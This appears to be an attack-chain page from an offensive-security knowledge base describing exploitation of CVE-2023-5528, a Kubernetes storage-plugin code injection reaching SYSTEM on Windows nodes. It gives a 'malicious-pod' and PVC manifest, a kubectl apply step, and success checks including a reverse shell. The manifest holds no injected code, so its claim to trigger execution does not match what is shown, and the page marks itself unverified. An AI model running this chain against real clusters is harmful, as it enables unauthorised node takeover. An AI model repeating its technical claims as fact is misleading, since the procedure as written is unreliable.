

---
tags:
  - kubernetes
  - windows
  - rce
  - privilege-escalation
  - code-injection
  - cve-2023-5528
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Kubernetes
  - Windows
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Code-Injection-in-Kubernetes-Storage-Plugin]]'
step_count: 1
techniques:
  - '[[Exploitation for Privilege Escalation]]'
  - '[[Command-Line Interface]]'
updated_at: '2025-12-14T17:30:27.438Z'
description: >-
  An attack chain exploiting CVE-2023-5528, where insufficient input
  sanitization in Kubernetes' in-tree storage plugin enables arbitrary code
  execution as the kubelet process, leading to SYSTEM privileges on Windows
  nodes.
skill_level: intermediate
impact_level: high
id: e098eb19-0b38-41c3-8c02-33880a1697ba
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Exploitation for Privilege Escalation]]'
  - '[[Command-Line Interface]]'
---
# Privilege Escalation via Code Injection in Kubernetes In-Tree Storage Plugin on Windows Nodes

Multi-stage attack chain demonstrating a complete attack workflow exploiting CVE-2023-5528 in Kubernetes.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- kubectl (Kubernetes CLI)

### Target Environment

- Kubernetes cluster with Windows worker nodes
- In-tree storage plugin enabled (default for many setups)
- Kubelet service running on Windows nodes

### Initial Access Requirements

- Valid credentials or access to create Kubernetes resources (e.g., pods, persistent volumes)
- Network access to the Kubernetes API server
- No prior node-level access required, but cluster-level permissions needed

## Detailed Attack Procedures

### Step 1: Exploit Storage Plugin for Code Injection
procedure: [[procedures/Exploit-Code-Injection-in-Kubernetes-Storage-Plugin]]

**Objective**: Leverage insufficient input sanitization in the in-tree storage plugin to inject and execute arbitrary code in the kubelet process context on Windows nodes, achieving SYSTEM privileges.

**Instructions**: Assuming cluster access via kubectl, create a malicious persistent volume claim (PVC) or pod configuration that triggers the storage plugin with unsanitized input containing injectable code. The plugin processes the input on Windows nodes, leading to code execution.

For example, craft a YAML manifest for a pod using a volume that exploits the plugin:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: malicious-pod
spec:
  nodeSelector:
    kubernetes.io/os: windows
  volumes:
    - name: malicious-volume
      persistentVolumeClaim:
        claimName: exploit-pvc
  containers:
    - name: exploiter
      image: mcr.microsoft.com/windows/servercore:ltsc2019
      volumeMounts:
        - mountPath: /data
          name: malicious-volume
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
  name: exploit-pvc
spec:
  accessModes:
    - ReadWriteOnce
  resources:
    requests:
      storage: 1Gi
  storageClassName: default  # Triggers in-tree plugin
```

Apply the manifest using kubectl:

```bash
kubectl apply -f exploit.yaml
```

The unsanitized input in the volume configuration (e.g., embedding PowerShell code in mount options or paths) is processed by the kubelet on the Windows node, injecting and executing the code as SYSTEM.

**Expected Output**: Pod creation succeeds, but monitoring Windows node processes shows injected code running (e.g., via Event Viewer or tasklist). Successful exploitation grants a shell or payload execution as SYSTEM.

**Success Indicators**:
- Pod schedules on a Windows node without errors
- Evidence of code execution in kubelet logs or node system logs (e.g., unexpected processes spawned)
- Ability to run commands as SYSTEM on the node (verify via reverse shell or file creation in privileged directories)

## Attack Chain Summary

### Key Achievements

1. Achieved arbitrary code execution in the high-privilege kubelet process
2. Escalated to SYSTEM privileges across all Windows nodes in the cluster
3. Demonstrated impact of CVE-2023-5528 without needing direct node access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]] Exploitation for Privilege Escalation
- [[Command-Line Interface]] Command and Scripting Interpreter

### MITRE ATT&CK Tactics

- [[Execution]] Execution
- [[Privilege Escalation]] Privilege Escalation

---
*Last updated: 2023-10-01T00:00:00Z*
